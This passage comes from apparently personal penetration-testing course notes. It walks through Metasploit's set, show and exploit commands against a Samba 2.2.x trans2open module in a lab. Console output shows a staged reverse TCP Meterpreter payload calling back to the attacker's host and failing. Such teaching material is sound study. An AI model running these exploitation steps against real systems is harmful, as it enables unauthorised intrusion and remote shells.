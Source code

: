 ```bash
   --  ----
   0   Samba 2.2.x - Bruteforce
```
In this case we need to set `RHOSTS` while `RPORT` (remote port), `LHOST` (local host), and `LPORT` (local port) are set for us (we can change these if we want).
### `set`
In order to set these options we can use the `set` command + the value we want to set & the new value:
```bash
msf6 exploit(linux/samba/trans2open) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
```
### `show`
Using the `show` command we can verify the *target module* (not the target host). This includes the service we're exploiting as well as the technique:
```bash
msf6 exploit(linux/samba/trans2open) > show targets

Exploit targets:
=================
    Id  Name
    --  ----
=>  0   Samba 2.2.x - Bruteforce
```
`show` can also show us encoders, nops, exploits, payloads, auxiliaries, post, plugins, info, options, and favorites (all related to the Metasploit framework and the context we're in) (use *`show all`* to get a list of all of them at once).
### `run` / `exploit`
Once we've verified our context and variables we can run our exploit using either the `run` or `exploit` command:
```bash
msf6 exploit(linux/samba/trans2open) > exploit       # <- staged payload

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.5        # <- sending stage is a good sign
[*] 10.0.2.5 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.5:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 3 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 4 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff6fc...
[*] 10.0.2.5:139 - Trying return address 0xbffff5fc... # <- we know it's failed
^C
[-] 10.0.2.5:139 - Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
```
The exploitation didn't work, part of the reason being that *we didn't set a [payload](/PNPT/PEH/exploit-basics/payloads.md)*. Instead, Metasploit set a default payload (`linux/x86/meterpreter/reverse_tcp`). We can tell from the path that it is a *staged payload*, which might be part of the reason it didn't work.
### `set`